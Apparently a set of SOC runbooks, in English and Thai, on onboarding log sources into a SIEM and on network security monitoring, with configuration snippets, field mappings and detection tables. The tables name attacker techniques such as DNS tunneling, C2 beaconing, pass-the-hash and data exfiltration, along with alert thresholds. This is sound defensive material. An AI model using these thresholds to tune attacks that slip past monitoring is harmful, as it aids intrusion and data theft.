Port:         514 (UDP) or 6514 (TLS)
Format:       BSD
Facility:     LOG_USER

# Fortinet FortiGate
config log syslogd setting
    set status enable
    set server [SIEM_IP]
    set port 514
    set format cef
    set facility local7
end
```

### AWS CloudTrail
```bash
# Enable CloudTrail → S3 → SIEM
aws cloudtrail create-trail \
  --name soc-audit-trail \
  --s3-bucket-name company-cloudtrail-logs \
  --is-multi-region-trail \
  --enable-log-file-validation

# Enable CloudWatch Logs integration
aws cloudtrail update-trail \
  --name soc-audit-trail \
  --cloud-watch-logs-log-group-arn arn:aws:logs:... \
  --cloud-watch-logs-role-arn arn:aws:iam::...
```

### Azure Activity & Sign-in Logs
```
# Azure Portal → Azure AD → Diagnostic Settings
# Export to:
- Log Analytics Workspace (recommended)
- Event Hub → SIEM
- Storage Account

# Key log categories:
✅ AuditLogs
✅ SignInLogs
✅ NonInteractiveUserSignInLogs
✅ ServicePrincipalSignInLogs
✅ RiskyUsers
✅ UserRiskEvents
```

### Office 365 / Microsoft 365
```powershell
# Enable Unified Audit Log
Set-AdminAuditLogConfig -UnifiedAuditLogIngestionEnabled $true

# Verify
Get-AdminAuditLogConfig | FL UnifiedAuditLogIngestionEnabled

# Key events to monitor:
# - MailItemsAccessed
# - New-InboxRule / Set-InboxRule
# - FileDownloaded / FileUploaded (SharePoint/OneDrive)
# - UserLoggedIn (from unusual locations)
```

### EDR (CrowdStrike / Defender / SentinelOne)
```
# Typically via API or Syslog streaming
# CrowdStrike: SIEM Connector → Falcon Data Replicator
# Defender: Microsoft 365 Defender → Streaming API
# SentinelOne: Settings → Integrations → Syslog/CEF

# Key events:
✅ Detections / Alerts
✅ Process execution
✅ Network connections
✅ File modifications
✅ DNS queries
```

---

## Phase 3: Parse & Normalize

### Field Mapping Standard (ECS)

Map all sources to Elastic Common Schema (ECS) or similar:

| Standard Field | Description | Example |
|:---|:---|:---|
| `@timestamp` | Event time | 2026-02-15T08:30:00Z |
| `event.category` | Category | authentication, network, process |
| `event.action` | Action | login, file_create, dns_query |
| `event.outcome` | Result | success, failure |
| `source.ip` | Source IP | 10.0.1.50 |
| `destination.ip` | Dest IP | 8.8.8.8 |
| `user.name` | Username | john.doe |
| `host.name` | Hostname | WS-JOHN-01 |
| `process.name` | Process | powershell.exe |
| `file.hash.sha256` | File hash | abc123... |

---

## Phase 4: Validation

After onboarding, verify:

```
□ Logs are arriving (check last 5 min)
□ Parsing is correct (spot-check 10 events)
□ Timestamps are accurate (not off by timezone)
□ Fields are normalized to standard schema
□ No data loss (compare source count vs SIEM count, ±5%)
□ Test search query returns expected results
□ Volume matches estimate (not flooding or too low)
□ Alert rules fire on test data
```

### Test Queries
```
# Check data arrival
index=* sourcetype="new_source" earliest=-5m | stats count

# Verify field extraction
index=* sourcetype="new_source" | table _time, source.ip, user.name, event.action

# Count vs expected volume
index=* sourcetype="new_source" earliest=-1d | stats count
```

---

## Phase 5: Build Detections

After validation, create detection rules:

1. Review which Sigma rules apply to this log source
2. Convert relevant Sigma rules for your SIEM
3. Test detection rules against historical data
4. Set up alert routing (email, Slack, ticket)
5. Document false positive baseline (first 2 weeks)

---

## Log Source Priority Matrix

| Priority | Log Source | Playbooks Supported |
|:---:|:---|:---|
| 🔴 P1 | EDR / Endpoint | PB-01, PB-02, PB-03, PB-11, PB-12 |
| 🔴 P1 | Active Directory / Azure AD | PB-04, PB-05, PB-06, PB-07, PB-15, PB-26 |
| 🔴 P1 | Email Gateway | PB-01, PB-17 |
| 🟡 P2 | Firewall / IDS | PB-09, PB-13, PB-24 |
| 🟡 P2 | Cloud (AWS/Azure/GCP) | PB-16, PB-27 |
| 🟡 P2 | Proxy / Web Gateway | PB-10, PB-22, PB-29 |
| 🟢 P3 | DNS | PB-24 |
| 🟢 P3 | DLP | PB-08, PB-14 |
| 🟢 P3 | MDM | PB-19, PB-28 |
| ⚪ P4 | Badge / Physical | PB-14 |
| ⚪ P4 | OT/ICS | PB-30 |

---

## Related Documents

- [Detection Rules Index](../08_Detection_Engineering/README.md)
- [Sigma Rule Validator](../tools/sigma_validator.py)
- [SOC Metrics & KPIs](SOC_Metrics.en.md)


---

## File: 06_Operations_Management/Log_Source_Onboarding.th.md

# คู่มือเพิ่ม Log Source เข้า SIEM

> **รหัสเอกสาร:** LOG-001  
> **เวอร์ชัน:** 1.0  
> **อัปเดตล่าสุด:** 2026-02-15  
> **เจ้าของ:** SOC Engineering

---

## วัตถุประสงค์

คู่มือทีละขั้นตอนสำหรับ onboard log source ใหม่เข้า SIEM เพื่อให้แน่ใจว่ามี detection coverage ถูกต้องและมีคุณภาพ

---

## ขั้นตอนการ Onboard

```
1. ประเมิน → 2. ตั้งค่า → 3. Parse → 4. ตรวจสอบ → 5. สร้าง Detection
```

---

## ขั้นที่ 1: ประเมิน

| รายการ | รายละเอียด |
|:---|:---|
| ชื่อ Log Source | [ชื่อระบบ] |
| ประเภท | Auth / Network / Endpoint / Cloud |
| ปริมาณ | [Events ต่อวัน] |
| รูปแบบ | Syslog / JSON / CEF / Windows Event |
| การส่ง | Syslog / Filebeat / API / S3 |
| Retention | [จำนวนวัน] |
| Playbooks | สนับสนุน playbook ไหนบ้าง? |

---

## ขั้นที่ 2: ตั้งค่า

### Windows
```yaml
# Winlogbeat — Event IDs สำคัญ
Security: 4624, 4625, 4648, 4672, 4688, 4720, 1102
Sysmon: ทั้งหมด
PowerShell: 4103, 4104
```

### Linux
```yaml
# Filebeat
/var/log/auth.log, /var/log/syslog, /var/log/audit/audit.log
```

### Cloud
```
AWS: CloudTrail → S3 → SIEM
Azure: Diagnostic Settings → Log Analytics / Event Hub
O365: Unified Audit Log → Streaming API
```

---

## ขั้นที่ 3: Normalize (ECS)

| Field มาตรฐาน | คำอธิบาย |
|:---|:---|
| `@timestamp` | เวลาเกิดเหตุ |
| `event.category` | หมวด (authentication, network) |
| `source.ip` | IP ต้นทาง |
| `user.name` | ชื่อผู้ใช้ |
| `host.name` | ชื่อเครื่อง |

---

## ขั้นที่ 4: ตรวจสอบ

```
□ Log มาถึงแล้ว (ตรวจ 5 นาทีล่าสุด)
□ Parse ถูกต้อง (spot-check 10 events)
□ Timestamp ถูก timezone
□ Fields normalize ตาม schema
□ ปริมาณตรงกับที่ประเมิน (±5%)
□ Alert rules ทำงาน
```

---

## ลำดับความสำคัญ

| ลำดับ | Log Source | Playbooks |
|:---:|:---|:---|
| 🔴 P1 | EDR / Endpoint | PB-01–03, PB-11–12 |
| 🔴 P1 | AD / Azure AD | PB-04–07, PB-15, PB-26 |
| 🔴 P1 | Email Gateway | PB-01, PB-17 |
| 🟡 P2 | Firewall / IDS | PB-09, PB-13, PB-24 |
| 🟡 P2 | Cloud (AWS/Azure) | PB-16, PB-27 |
| 🟢 P3 | DNS / DLP / MDM | PB-08, PB-19, PB-24 |

---

## Log Source Priority Matrix

| ลำดับ | แหล่ง Log | ความสำคัญ | MITRE Coverage |
|:---:|:---|:---:|:---|
| 1 | **Active Directory** | 🔴 Critical | T1078, T1110, T1098 |
| 2 | **Firewall / IDS** | 🔴 Critical | T1071, T1090, T1572 |
| 3 | **EDR (Endpoint)** | 🔴 Critical | T1059, T1055, T1053 |
| 4 | **Email Gateway** | 🟡 High | T1566, T1534 |
| 5 | **DNS** | 🟡 High | T1071.004, T1568 |
| 6 | **Web Proxy** | 🟡 High | T1071.001, T1102 |
| 7 | **VPN / Remote Access** | 🟡 High | T1133, T1021 |
| 8 | **Cloud Audit (AWS/Azure)** | 🟡 High | T1078.004, T1537 |
| 9 | **Database Audit** | 🟢 Medium | T1213, T1505 |
| 10 | **Application Logs** | 🟢 Medium | T1190, T1212 |

## Onboarding Checklist (Per Source)

| # | รายการ | สถานะ |
|:---:|:---|:---:|
| 1 | ระบุ log source owner และ contact | ☐ |
| 2 | กำหนดวิธีส่ง log (agent/syslog/API) | ☐ |
| 3 | ตั้งค่า parsing / field extraction | ☐ |
| 4 | สร้าง index pattern / data stream | ☐ |
| 5 | ตรวจสอบ log volume (EPS baseline) | ☐ |
| 6 | สร้าง health check alert (log stop flowing) | ☐ |
| 7 | Map fields ไปยัง normalization schema | ☐ |
| 8 | สร้าง detection rules สำหรับ source นี้ | ☐ |
| 9 | ทดสอบ alert triggering | ☐ |
| 10 | บันทึกใน Log Source Matrix | ☐ |

## Volume Planning

| แหล่ง Log | EPS โดยประมาณ | GB/วัน (ประมาณ) | Retention |
|:---|:---:|:---:|:---|
| Active Directory | 50–200 | 2–8 GB | 90 วัน |
| Firewall | 100–1,000 | 5–50 GB | 30 วัน |
| EDR | 20–100 | 1–5 GB | 90 วัน |
| DNS | 200–2,000 | 10–100 GB | 14 วัน |
| Web Proxy | 50–500 | 3–30 GB | 30 วัน |

## Troubleshooting Log Onboarding

| ปัญหา | สาเหตุ | วิธีแก้ |
|:---|:---|:---|
| Log ไม่เข้า SIEM | Port ถูก block | ตรวจสอบ firewall rules |
| Parsing ผิดพลาด | Format ไม่ตรงกับ parser | อัปเดต regex / grok pattern |
| Timestamp ไม่ตรง | Timezone mismatch | ตั้งค่า NTP + timezone ใน parser |
| Volume สูงเกินคาด | Debug logging เปิดอยู่ | ปรับ log level เป็น INFO |

## การทำ Normalization

### Field Mapping Standard

| Standard Field | ตัวอย่าง Source Fields | คำอธิบาย |
|:---|:---|:---|
| `src_ip` | src_addr, SrcIP, source.ip | IP ต้นทาง |
| `dst_ip` | dst_addr, DstIP, dest.ip | IP ปลายทาง |
| `user` | username, AccountName, user.name | ชื่อผู้ใช้ |
| `action` | EventAction, Action, event.action | การดำเนินการ |
| `timestamp` | @timestamp, EventTime, _time | เวลาเหตุการณ์ |
| `severity` | level, priority, rule.level | ระดับความรุนแรง |
| `hostname` | ComputerName, host.name | ชื่อเครื่อง |

### ตัวอย่าง Parser (Wazuh)

```xml
<!-- Custom decoder สำหรับ application log -->
<decoder name="custom_app">
  <program_name>myapp</program_name>
  <regex>^(\S+) (\S+) (\S+) "(\S+)"</regex>
  <order>timestamp,src_ip,user,action</order>
</decoder>
```

## Health Monitoring สำหรับ Log Sources

| ตรวจสอบ | เงื่อนไข Alert | ความรุนแรง |
|:---|:---|:---:|
| Log ไม่เข้ามา > 15 นาที | `count == 0 in 15m` | 🔴 High |
| EPS ลดลง > 50% | `eps < baseline * 0.5` | 🟡 Medium |
| EPS เพิ่มขึ้น > 200% | `eps > baseline * 2` | 🟡 Medium |
| Parsing error rate > 5% | `parse_error > 5%` | 🟡 Medium |
| Timestamp drift > 5 นาที | `time_diff > 5m` | 🟡 Medium |

## Log Source Retirement Process

| ขั้นตอน | กิจกรรม | ผู้รับผิดชอบ |
|:---|:---|:---|
| 1 | ประเมินว่ายังต้องการ log source นี้หรือไม่ | SOC Manager |
| 2 | ตรวจสอบ detection rules ที่ใช้ log source นี้ | Detection Engineer |
| 3 | อัปเดต/ลบ rules ที่ได้รับผลกระทบ | Detection Engineer |
| 4 | ปิด log collection | IT / System Owner |
| 5 | อัปเดต Log Source Matrix | SOC Analyst |
| 6 | Archive ข้อมูลตาม retention policy | IT |

## Log Source Health Monitoring

### Health Check Dashboard

| Log Source | Expected EPS | Actual EPS | Status | Last Event |
|:---|:---|:---|:---|:---|
| Firewall | 500 | 487 | ✅ ปกติ | 2 sec ago |
| AD/LDAP | 200 | 195 | ✅ ปกติ | 5 sec ago |
| EDR | 300 | 45 | 🔴 ต่ำผิดปกติ | 3 min ago |
| Web Proxy | 150 | 148 | ✅ ปกติ | 1 sec ago |
| DNS | 400 | 0 | 🔴 หยุดส่ง | 15 min ago |

### Troubleshooting Log Gaps

```mermaid
flowchart TD
    A[Log gap detected] --> B{Agent running?}
    B -->|No| C[Restart agent]
    B -->|Yes| D{Network connectivity?}
    D -->|No| E[Check firewall rules]
    D -->|Yes| F{Parser working?}
    F -->|No| G[Fix parser config]
    F -->|Yes| H{Storage full?}
    H -->|Yes| I[Expand storage/archive]
    H -->|No| J[Escalate to vendor]
```

### Onboarding Checklist per Source Type

| ขั้นตอน | Firewall | Endpoint | Cloud | Application |
|:---|:---|:---|:---|:---|
| Network config | ✅ Syslog | ✅ Agent | API Key | ✅ Webhook |
| Parser setup | Custom | Built-in | Built-in | Custom |
| Field mapping | 15 fields | 25 fields | 20 fields | 10 fields |
| Baseline (days) | 7 | 14 | 7 | 14 |
| Alert rules | 5 | 10 | 8 | 3 |

### Log Quality Assurance

| Check | Target | Frequency |
|:---|:---|:---|
| Field completeness | > 95% | Weekly |
| Timestamp accuracy | ± 1 sec NTP | Monthly |
| Parser accuracy | > 98% | Per update |
| Normalization | CIM compliant | Per onboard |

### Onboarding Timeline Template

| Day | Activity | Owner |
|:---|:---|:---|
| 1 | Network/API config | IT + Vendor |
| 2-3 | Parser development | SOC Engineer |
| 4-5 | Baseline collection | SOC Analyst |
| 6-7 | Alert rule creation | SOC Engineer |

### Quick Reference

| Phase | Duration |
|:---|:---|
| Config | 1-2 days |
| Baseline | 7 days |

## เอกสารที่เกี่ยวข้อง

- [ดัชนี Detection Rules](../08_Detection_Engineering/README.th.md)
- [Sigma Validator](../tools/sigma_validator.py)


---

## File: 06_Operations_Management/Network_Security_Monitoring.en.md

# Network Security Monitoring SOP

**Document ID**: OPS-SOP-025
**Version**: 1.0
**Classification**: Internal
**Last Updated**: 2026-02-15

> SOC procedures for **monitoring network traffic, detecting network-based attacks, and responding to network security incidents**. Covers IDS/IPS, NDR, DNS monitoring, NetFlow analysis, and network forensics.

---

## Network Monitoring Architecture

```mermaid
graph TD
    subgraph Perimeter["🌐 Perimeter"]
        A[Firewall Logs]
        B[IDS/IPS Alerts]
        C[WAF Logs]
        D[Proxy/Web Gateway]
    end
    
    subgraph Internal["🏢 Internal"]
        E[NetFlow/sFlow]
        F[DNS Logs]
        G[DHCP Logs]
        H[Network TAP/SPAN]
    end
    
    subgraph NDR["🔍 NDR Platform"]
        I[Full Packet Capture]
        J[Protocol Analysis]
        K[Behavioral Analytics]
        L[Encrypted Traffic Analysis]
    end
    
    Perimeter --> M["SIEM"]
    Internal --> M
    NDR --> M
    M --> N["SOC Alert Queue"]

    style M fill:#3b82f6,color:#fff
    style N fill:#dc2626,color:#fff
```

---

## Network Data Sources

| Source | Key data | Retention | Priority |
|:---|:---|:---:|:---:|
| **Firewall logs** | Accept/deny, source/dest IP, port, protocol | 90 days | 🔴 Critical |
| **IDS/IPS alerts** | Signature matches, anomalies | 90 days | 🔴 Critical |
| **DNS query logs** | Domain resolution, query types | 90 days | 🔴 Critical |
| **Proxy/web gateway** | URL, user agent, bytes, category | 90 days | 🔴 Critical |
| **NetFlow/sFlow** | Traffic flow metadata (no payload) | 30 days | 🟠 High |
| **Full packet capture** | Complete traffic content | 7 days | 🟠 High |
| **DHCP logs** | IP-to-MAC mapping | 90 days | 🟡 Medium |
| **VPN logs** | Connection times, source IPs, users | 90 days | 🟡 Medium |
| **WAF logs** | Web attack attempts, blocked requests | 90 days | 🟡 Medium |
| **Wi-Fi controller** | SSID connections, rogue APs | 30 days | 🟡 Medium |

---

## Critical Network Detections

### Perimeter Attacks

| Detection | Description | Data Source | Severity | MITRE |
|:---|:---|:---|:---:|:---|
| Port scan detected | Systematic port scanning from single source | Firewall / IDS | P3 | T1046 |
| Brute-force attempt | Repeated connection attempts to same port | Firewall / IDS | P2 | T1110 |
| Exploit attempt | IDS signature match for known exploit | IDS | P1 | varies |
| DDoS indicators | Abnormal traffic volume from multiple sources | Firewall / NetFlow | P1 | T1498/T1499 |
| Unauthorized VPN access | VPN connection from blocked country/IP | VPN logs | P2 | T1133 |

### Lateral Movement

| Detection | Description | Data Source | Severity | MITRE |
|:---|:---|:---|:---:|:---|
| Internal port scan | Host scanning multiple internal IPs | NetFlow / IDS | P2 | T1046 |
| SMB lateral movement | Unusual SMB connections between hosts | NDR / NetFlow | P1 | T1021.002 |
| RDP to unusual hosts | RDP to servers not in normal baseline | NetFlow / EDR | P2 | T1021.001 |
| Pass-the-hash | NTLM relay or overpass-the-hash detected | NDR / Sysmon | P1 | T1550.002 |
| WinRM across segments | WinRM between network zones | NetFlow / Sysmon | P2 | T1021.006 |

### Command & Control (C2)

| Detection | Description | Data Source | Severity | MITRE |
|:---|:---|:---|:---:|:---|
| DNS tunneling | High-frequency DNS queries with encoded data | DNS logs | P1 | T1071.004 |
| Beaconing pattern | Regular-interval outbound connections | NDR / Proxy | P1 | T1071 |
| Domain generation algorithm | Many NXD responses from single host | DNS logs | P2 | T1568.002 |
| Known C2 infrastructure | Connection to TI-flagged IP/domain | Proxy / Firewall | P1 | T1071 |
| Encrypted C2 (JA3/JA4) | Unusual TLS fingerprint to rare domain | NDR | P2 | T1573 |
| Long DNS TXT queries | TXT records > 200 bytes | DNS logs | P2 | T1071.004 |

### Data Exfiltration

| Detection | Description | Data Source | Severity | MITRE |
|:---|:---|:---|:---:|:---|
| Large outbound transfer | > 500 MB to single external IP | NetFlow / Proxy | P1 | T1048 |
| Unusual upload destination | Upload to IP/domain never seen before | Proxy / NDR | P2 | T1567 |
| Exfil over DNS | DNS queries with encoded payload data | DNS logs | P1 | T1048.001 |
| After-hours data transfer | Large transfers 22:00–06:00 | NetFlow / Proxy | P2 | T1048 |
| Encrypted exfil to cloud | TLS to personal cloud storage | Proxy / CASB | P2 | T1567.002 |

---

## Network Segmentation Monitoring

### Zone Matrix

| Zone | Allowed Destinations | Blocked | Monitoring |
|:---|:---|:---|:---|
| **DMZ** | Internet (specific ports), Internal DB (specific) | All other internal | Full PCAP + IDS |
| **Server Zone** | Other servers (specific), DMZ (response only) | Workstations (direct) | NetFlow + IDS |
| **Workstation Zone** | DMZ (via proxy), Server Zone (specific) | Direct Internet | Proxy logs + NetFlow |
| **Management Zone** | All zones (admin ports only) | Internet | Full PCAP + IDS |
| **IoT Zone** | IoT gateway only | All other zones | Full PCAP + IDS |

### Cross-Zone Violations

| Violation | Severity | Response |
|:---|:---:|:---|
| Workstation → Server (non-standard port) | P2 | Investigate, may indicate lateral movement |
| Server → Workstation (any) | P1 | Investigate immediately, reversed connection suspicious |
| IoT → Server/Workstation | P1 | Contain, possible IoT compromise |
| DMZ → Internal (non-standard) | P1 | Investigate, possible DMZ breach |
| Any zone → Management | P2 | Verify authorized admin access |

---

## DNS Security Monitoring

### DNS Detections

| Detection | Logic | Severity |
|:---|:---|:---:|
| **New domain (< 30 days old)** | Domain creation date query | P3 |
| **DGA detection** | Entropy analysis + NXD ratio | P2 |
| **DNS tunneling** | Query length > 50 chars + high frequency | P1 |
| **Typosquatting** | Edit distance < 3 from corporate domains | P2 |
| **IDN homograph** | Unicode lookalike domains | P2 |
| **DNS over HTTPS (DoH)** | TLS to known DoH providers | P3 |
| **Fast-flux DNS** | Domain resolving to many IPs rapidly | P2 |
| **Sinkhole response** | DNS resolving to known sinkhole IP | P2 |

### DNS Blocklist Integration

| Source | Update Frequency | Type |
|:---|:---:|:---|
| TI feeds (commercial) | Real-time | Malware C2 domains |
| OSINT feeds | Hourly | Known malicious domains |
| Internal blocklist | As needed | Policy-blocked categories |
| Sinkhole feeds | Daily | Compromised domains |

---

## Network Incident Response

### Response Actions

| Action | Tool | Command/Procedure | Impact |
|:---|:---|:---|:---|
| **Block IP** | Firewall | Add to deny list | Immediate, may affect legitimate traffic |
| **Block domain** | DNS Firewall/Proxy | Add to blocklist | Low impact |
| **Isolate host** | Switch/NAC/EDR | Port shutdown or VLAN change | Host offline |
| **Capture packets** | PCAP tool | Start targeted capture | Storage intensive |
| **Rate limit** | Firewall/IPS | Limit connections per source | Partial mitigation |
| **Sinkhole domain** | DNS | Redirect to internal sinkhole | Identifies infected hosts |

### Network IR Workflow

```mermaid
flowchart TD
    A[Network Alert] --> B{Alert source?}
    B -->|IDS/IPS| C[Review signature details]
    B -->|NDR| D[Review behavioral anomaly]
    B -->|DNS| E[Review domain/query]
    B -->|NetFlow| F[Review traffic patterns]
    
    C --> G{True positive?}
    D --> G
    E --> G
    F --> G
    
    G -->|FP| H[Tune rule, close]
    G -->|TP| I[Assess scope]
    
    I --> J[How many hosts affected?]
    J --> K{Single host}
    J --> L{Multiple hosts}
    
    K --> M[Contain host + investigate]
    L --> N[🔴 Major incident — escalate]
    
    M --> O[Block IOCs network-wide]
    N --> O
    O --> P[Hunt for additional compromise]
    P --> Q[Remediate + lessons learned]

    style A fill:#3b82f6,color:#fff
    style N fill:#dc2626,color:#fff
    style Q fill:#22c55e,color:#fff
```

---

## Metrics

| Metric | Target | Measurement |
|:---|:---:|:---|
| Network alert MTTD | < 5 min | SIEM → alert time |
| Network alert MTTR (P1) | < 30 min | Ticket resolution |
| IDS/IPS signature coverage | ≥ 95% of known CVEs | Ruleset audit |
| DNS monitoring coverage | 100% of internal DNS | DNS log audit |
| NetFlow collection coverage | ≥ 90% of segments | Coverage audit |
| Network segmentation violations detected | 100% | Zone violation alerts |
| False positive rate (network alerts) | < 15% | FP / total alerts |
| PCAP availability for P1 investigations | ≥ 95% | Forensic readiness audit |

---

## Related Documents

-   [Log Source Matrix](Log_Source_Matrix.en.md) — All data sources
-   [Cloud Security Monitoring](Cloud_Security_Monitoring.en.md) — Cloud network
-   [Threat Landscape Report](Threat_Landscape_Report.en.md) — Active threats
-   [Forensic Investigation](../05_Incident_Response/Forensic_Investigation.en.md) — Network forensics
-   [Alert Tuning SOP](Alert_Tuning.en.md) — Network alert tuning
-   [DLP SOP](DLP_SOP.en.md) — Network DLP integration


---

## File: 06_Operations_Management/Network_Security_Monitoring.th.md

# Network Security Monitoring SOP / SOP การเฝ้าระวังความปลอดภัยเครือข่าย

**รหัสเอกสาร**: OPS-SOP-025
**เวอร์ชัน**: 1.0
**การจัดชั้นความลับ**: ใช้ภายใน
**อัปเดตล่าสุด**: 2026-02-15

> ขั้นตอน SOC สำหรับ **เฝ้าระวัง traffic เครือข่าย, ตรวจจับการโจมตี, และตอบสนอง** ครอบคลุม IDS/IPS, NDR, DNS monitoring, NetFlow, และ network forensics

---

## แหล่งข้อมูลเครือข่าย

| แหล่ง | ข้อมูลสำคัญ | เก็บ | ลำดับ |
|:---|:---|:---:|:---:|
| **Firewall logs** | Accept/deny, source/dest, port | 90 วัน | 🔴 Critical |
| **IDS/IPS alerts** | Signature matches, anomalies | 90 วัน | 🔴 Critical |
| **DNS query logs** | Domain, query types | 90 วัน | 🔴 Critical |
| **Proxy/web gateway** | URL, user agent, bytes | 90 วัน | 🔴 Critical |
| **NetFlow/sFlow** | Flow metadata | 30 วัน | 🟠 High |
| **Full packet capture** | Traffic content ทั้งหมด | 7 วัน | 🟠 High |
| **DHCP logs** | IP-to-MAC mapping | 90 วัน | 🟡 Medium |
| **VPN logs** | Connection times, IPs, users | 90 วัน | 🟡 Medium |

---

## Network Detections ที่สำคัญ

### Perimeter Attacks

| Detection | คำอธิบาย | Severity | MITRE |
|:---|:---|:---:|:---|
| Port scan | สแกน port อย่างเป็นระบบ | P3 | T1046 |
| Brute-force | เชื่อมต่อซ้ำ port เดียว | P2 | T1110 |
| Exploit attempt | IDS signature match | P1 | varies |
| DDoS indicators | Traffic volume ผิดปกติ | P1 | T1498 |

### Lateral Movement

| Detection | คำอธิบาย | Severity | MITRE |
|:---|:---|:---:|:---|
| Internal port scan | Host สแกน IP ภายใน | P2 | T1046 |
| SMB lateral movement | SMB connections ผิดปกติ | P1 | T1021.002 |
| RDP ไปยัง host ผิดปกติ | RDP ไป server ที่ไม่ปกติ | P2 | T1021.001 |
| Pass-the-hash | NTLM relay detected | P1 | T1550.002 |

### Command & Control

| Detection | คำอธิบาย | Severity | MITRE |
|:---|:---|:---:|:---|
| DNS tunneling | DNS query ถี่ + encoded data | P1 | T1071.004 |
| Beaconing pattern | เชื่อมต่อ outbound เป็นจังหวะ | P1 | T1071 |
| DGA detection | NXD responses จำนวนมาก | P2 | T1568.002 |
| Known C2 | เชื่อมต่อ TI-flagged IP/domain | P1 | T1071 |
| Encrypted C2 (JA3/JA4) | TLS fingerprint ผิดปกติ | P2 | T1573 |

### Data Exfiltration

| Detection | คำอธิบาย | Severity | MITRE |
|:---|:---|:---:|:---|
| Large outbound transfer | > 500 MB ไปยัง IP ภายนอก | P1 | T1048 |
| Upload ปลายทางใหม่ | Upload ไป IP/domain ที่ไม่เคยเห็น | P2 | T1567 |
| Exfil over DNS | DNS query + payload data | P1 | T1048.001 |
| After-hours data transfer | Transfer ขนาดใหญ่ 22:00–06:00 | P2 | T1048 |

---

## การเฝ้าระวัง Network Segmentation

### Zone Matrix

| Zone | อนุญาต | บล็อก | Monitoring |
|:---|:---|:---|:---|
| **DMZ** | Internet (ports เฉพาะ), Internal DB (เฉพาะ) | Internal อื่นๆ | Full PCAP + IDS |
| **Server** | Servers อื่น (เฉพาะ), DMZ (response) | Workstations (ตรง) | NetFlow + IDS |
| **Workstation** | DMZ (ผ่าน proxy), Server (เฉพาะ) | Internet ตรง | Proxy + NetFlow |
| **Management** | ทุก zone (admin ports) | Internet | Full PCAP + IDS |

### Cross-Zone Violations

| Violation | Severity | Response |
|:---|:---:|:---|
| Workstation → Server (non-standard port) | P2 | สืบสวน lateral movement |
| Server → Workstation | P1 | สืบสวนทันที |
| IoT → Server/Workstation | P1 | Contain ทันที |
| DMZ → Internal (non-standard) | P1 | อาจ DMZ breach |

---

## DNS Security Monitoring

| Detection | Logic | Severity |
|:---|:---|:---:|
| Domain ใหม่ (< 30 วัน) | ตรวจ domain creation date | P3 |
| DGA detection | Entropy analysis + NXD ratio | P2 |
| DNS tunneling | Query > 50 chars + ความถี่สูง | P1 |
| Typosquatting | Edit distance < 3 จาก corporate domains | P2 |
| DNS over HTTPS (DoH) | TLS ไป DoH providers | P3 |
| Fast-flux DNS | Domain → หลาย IP เร็ว | P2 |

---

## Network Incident Response

### Response Actions

| Action | เครื่องมือ | ผลกระทบ |
|:---|:---|:---|
| **บล็อก IP** | Firewall | ทันที |
| **บล็อก domain** | DNS Firewall/Proxy | ต่ำ |
| **แยก host** | Switch/NAC/EDR | Host offline |
| **Capture packets** | PCAP tool | ใช้ storage มาก |
| **Rate limit** | Firewall/IPS | บรรเทาบางส่วน |
| **Sinkhole domain** | DNS | ระบุ infected hosts |

---

## ตัวชี้วัด

| ตัวชี้วัด | เป้าหมาย |
|:---|:---:|
| Network alert MTTD | < 5 นาที |
| Network alert MTTR (P1) | < 30 นาที |
| IDS/IPS signature coverage | ≥ 95% |
| DNS monitoring coverage | 100% |
| NetFlow coverage | ≥ 90% |
| Zone violation detection | 100% |
| False positive rate | < 15% |

---

## NSM Architecture

```mermaid
graph TD
    subgraph "Network Tap Points"
        TAP1["🔌 Internet Edge"]
        TAP2["🔌 DMZ"]
        TAP3["🔌 Core Switch"]
        TAP4["🔌 Server VLAN"]
    end
    subgraph "NSM Stack"
        Suricata["🛡️ Suricata (IDS)"]
        Zeek["🔍 Zeek (Metadata)"]
        PCAP["💾 Full PCAP"]
    end
    subgraph "Analysis"
        SIEM["📊 SIEM"]
        Dashboard["📈 Dashboard"]
    end
    TAP1 --> Suricata
    TAP2 --> Suricata
    TAP3 --> Zeek
    TAP4 --> Zeek
    TAP1 --> PCAP
    Suricata --> SIEM
    Zeek --> SIEM
    SIEM --> Dashboard
```

## Detection Categories

| หมวด | ตัวอย่าง | เครื่องมือ | ลำดับ |
|:---|:---|:---|:---:|
| **Malware C2** | Beacon traffic, DNS tunneling | Suricata + JA3 | P1 |
| **Lateral Movement** | SMB/RDP ผิดปกติ, PsExec | Zeek + Suricata | P1 |
| **Data Exfiltration** | Large outbound transfers, encrypted channels | Zeek + DLP | P1 |
| **Reconnaissance** | Port scan, service enumeration | Suricata | P2 |
| **Protocol Anomaly** | Non-standard DNS, HTTP tunneling | Zeek | P2 |
| **Unauthorized Services** | Rogue DHCP, unauthorized VPN | Zeek | P3 |

## NSM KPIs

| ตัวชี้วัด | เป้าหมาย | ปัจจุบัน |
|:---|:---|:---|
| Network coverage (monitored segments) | ≥ 90% | [XX]% |
| IDS alert-to-incident ratio | < 100:1 | [XX]:1 |
| PCAP retention | ≥ 72 ชม. | [XX] ชม. |
| Zeek log retention | ≥ 30 วัน | [XX] วัน |
| Signature update frequency | ≤ 24 ชม. | [XX] ชม. |

## NSM Tool Comparison

| คุณสมบัติ | Suricata | Zeek | Arkime |
|:---|:---:|:---:|:---:|
| **Signature-based detection** | ✅ | ❌ | ❌ |
| **Protocol parsing** | ✅ | ✅ (ดีกว่า) | ✅ |
| **Full PCAP** | ❌ | ❌ | ✅ |
| **Metadata logging** | ✅ | ✅ (ดีกว่า) | ✅ |
| **JA3/JA4 fingerprinting** | ✅ | ✅ | ✅ |
| **ราคา** | ฟรี | ฟรี | ฟรี |
| **เหมาะกับ** | IDS/IPS | Traffic analysis | PCAP search |

## NSM Use Cases

### Priority Detection Rules

| Use Case | Detection Method | Severity |
|:---|:---|:---|
| DNS Tunneling | Entropy analysis | High |
| Beaconing | Periodic connection pattern | High |
| Large upload | Bytes threshold | Medium |
| Unusual port | Baseline deviation | Medium |
| Cleartext credentials | Protocol inspection | Critical |

### Network Baseline Template

| Metric | Normal Range | Alert Threshold |
|:---|:---|:---|
| Outbound connections | 100-500/hr | > 1,000/hr |
| DNS queries | 50-200/min | > 500/min |
| Failed connections | < 5% | > 15% |
| Bandwidth utilization | 30-60% | > 85% |

### NSM Tool Stack

| Layer | Tool | Purpose |
|:---|:---|:---|
| Packet capture | Zeek / Suricata | Deep inspection |
| Flow analysis | NetFlow / sFlow | Traffic patterns |
| DNS monitoring | PassiveDNS | Domain tracking |
| Full PCAP | Arkime / tcpdump | Forensics |

## เอกสารที่เกี่ยวข้อง

-   [Log Source Matrix](Log_Source_Matrix.en.md) — แหล่งข้อมูลทั้งหมด
-   [Cloud Security Monitoring](Cloud_Security_Monitoring.en.md) — Cloud network
